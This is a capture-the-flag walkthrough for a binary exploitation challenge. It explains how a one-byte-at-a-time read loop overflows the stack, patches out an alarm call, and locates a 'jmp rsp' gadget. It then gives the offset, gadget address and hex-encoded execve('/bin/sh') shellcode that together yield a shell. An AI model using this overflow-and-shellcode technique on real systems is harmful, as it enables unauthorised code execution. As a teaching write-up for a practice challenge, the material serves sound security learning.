



# Your Cup Overfloweth

## Challenge
* Category: Binary Exploitation
* Points: 75

Your cup overfloweth. Drink up. Challenge Binary: cup. Listening on challenge.acictf.com:28950

### Hints
* Your cup (the stack) is executable.
* Your cup will bounce when it hits the floor in the right spot (gadget).
* Try not to spill any crumbs (newlines) into your cup.


## Solution

### Tools
* Hex-Rays IDA Pro (Community Edition)
* gdb
* Hexeditor
* ROPGaget

### Walkthrough
* The first step is to run the program. Since it's an elf file (linux executable) this has to be done in Linux. Kali Linux is as good of a choice as any.
* After playing around with it for a little bit I then ran it in gdb. `gdb cup`
* I quickly realized the program continued to time out, so then I decided to take a look at it in IDA Pro. To do this just open up IDA Pro and at address `0x4008E1` there is a system call to `alarm` which shuts down the program after 60 seconds. 



* To give my self some more time to examine the binary I patched it by overwriting `0x4008E1` with `0x90909090` which is just 4 NOP instructions. 
* At this point there are two different approaches, examine the binary in IDA (static analysis) or to feed random input to the program (fuzzing). I decided to go with a little bit of static analysis to find a good starting point. I didn't see anything too interesting in the `main` function but then I saw the `read_line` function. This is used to get the type of cup will be used in the program.  



* One can see that a area on the stack is created that is 0x18 hex in size, and is named buf. 
`.text:000000000040082D 48 83 EC 20               sub     rsp, 20h`
* There is also the function called `read`, and one can see that it takes in 3 values. The interesting one is the buf variable.
```
.text:0000000000400835 48 8B 45 E8                mov     rax, [rbp+buf]
.text:0000000000400839 BA 01 00 00 00             mov     edx, 1          ; nbytes
.text:000000000040083E 48 89 C6                   mov     rsi, rax        ; buf
.text:0000000000400841 BF 00 00 00 00             mov     edi, 0          ; fd
.text:0000000000400846 E8 95 FE FF FF             call    _read
```
* This shows that the buf variable is moved to `rax` and then `rsi` which is used for the buffer. However, the variable only takes in one byte at a time. So this alone won't overflow the stack. But later in the instructions there is a check to make sure the byte was read. Then the byte is compare to `0x0A` which is the hex representation of a new line or the enter key. If it sees this it will leave the read line function. However, if not, it moves the adds one to the buffer address and then jumps to read the next byte. 
```
.text:0000000000400851 48 8B 45 E8                mov     rax, [rbp+buf]         ; get the buffer address
.text:0000000000400855 0F B6 00                   movzx   eax, byte ptr [rax]    ; read the value at the buffer address
.text:0000000000400858 3C 0A                      cmp     al, 0Ah                ; compare the value to a new line
.text:000000000040085A 74 0A                      jz      short loc_400866       ; if there is a new line jump to end of the function
.text:000000000040085C 48 83 45 E8 01             add     [rbp+buf], 1           ; increase the address location by 1
.text:0000000000400861 EB D2                      jmp     short loc_400835       ; jump to read next byte
```
* It should be very clear that if we read in more than 20 (0x18 )bytes you'll start writing over areas of the stack that you shouldn't.  
* I then added a lot more than 20 bytes of input to see what would happen.



* We see the message `Program received signal SIGSEGV, Segmentation fault.` which is great for binary exploitation. The other great thing that we saw is that `rbp` is `0x3131313131313131`. This is also great news because we can control a register. 
* After some trial and error I discovered that a string of 105 characters plus the enter key gets us different errors and looking at the address at the crash start. Then I looked. For example `print("1"*105 + "A")` will jump to the address `0x00007ffff7e10041`. As you can see the last 2 bytes `0x0041` is the null byte, a string terminator, and `0x41` which is just A.  Keep in mind x86 uses little endian architecture therefore the bytes are in reverse order. 
* Now we need to know where to jump to, ideally straight to the stack, but we don't have control of `rip`. However if we could jump to the stack that would work. This is where a ROP chain may come in handy. To run this simply type `ROPgadget --ropchain --binary cup`. 
* Taking a look at the output you can find `0x0000000000400827 : jmp rsp`. `rsp` is the location of the stack, therefore this will work perfectly. We will just jump there which will then jump to the stack. To get there we need to feed `0x27 0x08 0x40 0x00 0x00 0x00 0x00 0x00` into the program. Since these are not real ascii characters we will use python to print the 105 characters and the 8 non ascii characters. I printed them to a file, but you could also print them directly to to stdin. 
* Next we will need to get some shell code in there too. You can use metasploit, or do a search for x86_64 shellcode. Basically all you need is a system call to `exec()` and feed it the argument `/bin/sh`. For me it looked like: 
`0x6A 0x42 0x58 0xFE 0xC4 0x48 0x99 0x52 0x48 0xBF 0x2F 0x62 0x69 0x6E 0x2F 0x2F 0x73 0x68 0x57 0x54 0x5E 0x49 0x89 0xD0 0x49 0x89 0xD2 0x0F 0x05 0x0A`
* At first I was trying to run the code like `./cup < shellcode.txt`. But that wasn't working. I then discovered you can run `cat shellcode.txt - | ./cup` and the connection doesn't close. This gets you shell access, but there won't be any indicator that it works, but just run linux commands like `ls`. This will show you the flag.txt file. All you need to do then is `cat flag.txt`. 
